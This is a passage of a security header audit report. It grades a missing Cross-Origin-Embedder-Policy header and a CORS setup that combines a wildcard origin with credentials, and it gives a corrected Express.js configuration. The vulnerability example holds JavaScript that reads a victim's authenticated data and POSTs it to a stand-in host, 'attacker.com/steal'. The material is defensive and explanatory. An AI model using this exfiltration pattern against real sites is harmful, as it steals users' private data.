#### Cross-Origin-Embedder-Policy
**Status**: 🟡 MISSING - MEDIUM
**Grade**: C

**Recommended Configuration**:
```http
Cross-Origin-Embedder-Policy: require-corp
```

**Priority**: P2 - Implement within 30 days

---

### ⚠️  Misconfigured Headers (2)

#### Access-Control-Allow-Origin: *
**Status**: 🔴 CRITICAL MISCONFIGURATION
**Grade**: F
**Risk**: High - Open CORS policy

**Current Configuration**:
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

**Issue**:
This configuration is **dangerous** and **invalid**. Wildcard (*) cannot be used with credentials.

**Vulnerability**:
```javascript
// Any malicious site can make authenticated requests:
fetch('https://example.com/api/user/data', {
  credentials: 'include'  // Sends cookies
})
.then(res => res.json())
.then(data => {
  // Attacker steals user data
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

**Correct Configuration**:
```javascript
// Express.js - Dynamic CORS
const allowedOrigins = [
  'https://app.example.com',
  'https://admin.example.com'
];

app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (allowedOrigins.includes(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');
  }
  next();
});
```
